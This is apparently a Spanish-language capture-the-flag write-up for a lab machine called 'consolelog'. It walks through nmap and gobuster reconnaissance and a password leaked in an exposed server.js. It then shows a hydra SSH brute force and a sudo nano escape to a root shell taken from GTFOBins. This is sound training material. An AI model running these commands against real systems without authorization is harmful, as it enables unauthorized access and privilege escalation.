








# Máquina consolelog

---

Dificultad -> Fácil

---

Empezamos con un nmap para ver servicios

```shell
nmap -p- --open -sV -sC -sS --min-rate=5000 -n -Pn 172.17.0.2
```

```shell
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.61 ((Debian))
|_http-title: Mi Sitio
|_http-server-header: Apache/2.4.61 (Debian)
3000/tcp open  http    Node.js Express framework
|_http-title: Error
5000/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 f8:37:10:7e:16:a2:27:b8:3a:6e:2c:16:35:7d:14:fe (ECDSA)
|_  256 cd:11:10:64:60:e8:bf:d9:a4:f4:8e:ae:3b:d8:e1:8d (ED25519)
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Vemos 3 puertos abiertos donde se pueden ver una web y un ssh



Entro a la página web y no veo mucho más que un botón que no parece hacer nada

Si inspecciono la página, en el debugger puedo ver el js que se ejecuta al darle al botón



Se pude ver un log en la consola que habla sobre un toquen en un recurso



Accedo al /recurso/ pero me da un error asi que procedo ha hacer fuzzing con gobuster

```shell
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x js,txt,php,html -t 64
```

```shell
/index.html           (Status: 200) [Size: 234]
/backend              (Status: 301) [Size: 310] [--> http://172.17.0.2/backend/]
/javascript           (Status: 301) [Size: 313] [--> http://172.17.0.2/javascript/]
/authentication.js    (Status: 200) [Size: 117]
/server-status        (Status: 403) [Size: 275]
```

Vemos que aparte del script anterior encuentro /javascript y /backend

Si accedo a /backend encontramos varios archivos



Si abrimos el server.js podemos ver un script donde se utliza token anteriormente mencionado por POST y devuelve una contraseña



Ya tenemos la contraseña asi que no hace falta hacer el POST, pero no tenemos un usuario asi que con hydra hago fuerza bruta usando esa contraseña

```shell
hydra -L /usr/share/wordlists/rockyou.txt -p lapassworddebackupmaschingonadetodas ssh://172.17.0.2:5000 -t 8 -I
```



Encontramos las credenciales del usuario lovely con las que accedemos por ssh y como siempre empezamos con un **`sudo -l`** 



Viendo que podemos ejecutar nano como root, nos metemos a [GTFOBins](https://gtfobins.github.io/) y seguimos las instrucciones de nano

```shell
sudo nano
^R^X
reset; bash 1>&0 2>&0
```



y finalizamos teniendo root :)
